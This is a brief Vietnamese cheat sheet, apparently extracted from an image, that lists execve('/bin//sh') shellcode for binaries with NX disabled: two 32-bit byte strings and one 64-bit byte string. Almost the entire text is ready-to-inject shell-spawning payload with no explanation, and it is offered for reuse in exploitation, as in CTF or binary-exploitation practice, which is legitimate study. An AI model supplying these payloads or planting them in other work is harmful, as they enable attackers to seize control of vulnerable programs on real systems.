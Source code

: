 

Các shellcode execve("/bin//sh") trong trường hợp NX disabled:
  32 bit: \x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x31\xDB\x31\xC9\x31\xD2\x89\xE3\x83\xC0\x0B\xCD\x80 
  shellcode = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x31\xd2\x31\xc9\x31\xd2\x89\xe3\xb0\x0b\xcd\x80\x30\xc0\xfe\xc0\xcd\x80"

  64 bit: \x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05 


